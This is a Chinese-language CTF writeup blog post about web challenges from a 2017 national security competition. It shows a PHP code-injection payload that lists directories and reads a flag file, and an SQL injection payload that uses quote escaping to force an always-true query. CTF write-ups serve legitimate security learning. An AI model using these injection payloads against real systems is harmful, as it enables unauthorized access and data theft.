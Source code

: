 ```yaml
---
title: 第十届信息安全国赛 Web MISC writeup
date: 2017-07-11 02:14:01
tags:
- Blogs
- ctf
- sqli
categories:
- Blogs
---
```



周末花了一整天的打国赛技能赛的线上赛，去年比赛没能进入线下，当时就是因为感觉选手之间py太严重，今年没想到又遇到了这样的问题，所幸的是，今年运气比较好，做出来的题目比较多，所以py没有太过影响到我们。

下面就奉上web和misc的writeup，就我个人看的话，题目虽然不够新颖，但质量已经算是中上了，所谓的抄袭不知道是不是我见识短浅，就我个人看来都是比较正常的思路，xss可能抄袭了一个sandbox吧，感觉对题目本身没有太大的影响。



# web #

## php ##
挺有趣的一题，虽然过滤很多，但是php是世界上最好的语言，能做的事情还是有很多

列目录，可以找到flag文件
```
code=$f=[];$d=new DirectoryIterator("glob:///var/www/html/f*");var_dump($d);
```
![image.png-274.5kB][1]

然后show_source可以读文件

```
<?php
$flag="flag{php_mail_ld_preload}";
?>
```

## wanna to see your hat? ##

不太喜欢的一题，通过把语句加在html的前面，让浏览器没办法解析直接看到，无聊的设计。

抓包能看到语句
```
select count(*) from t_info where username = '123' or nickname = '123'
```
简单的试了下 单引号被替换成了反斜杠，想到这样的话可以与 nickname 处的第一个引号闭合，构造一个永真语句就好了
```
name=or(1=1)%23'&submit=check

select count(*) from t_info where username = 'or(1=1)#\' or nickname = 'or(1=1)#\'good job
```


  [1]: http://static.zybuluo.com/LoRexxar/hml88kgi4o6fedxcf2b310a2/image.png
  [2]: http://static.zybuluo.com/LoRexxar/ovwsqpqw3m7woxybr5n1rx0a/image.png
  [3]: http://static.zybuluo.com/LoRexxar/fezpkgin6jwtnpw28y6ep02b/image.png
  [4]: http://static.zybuluo.com/LoRexxar/tr0z404vlz8pe1622z4uxpm5/image.png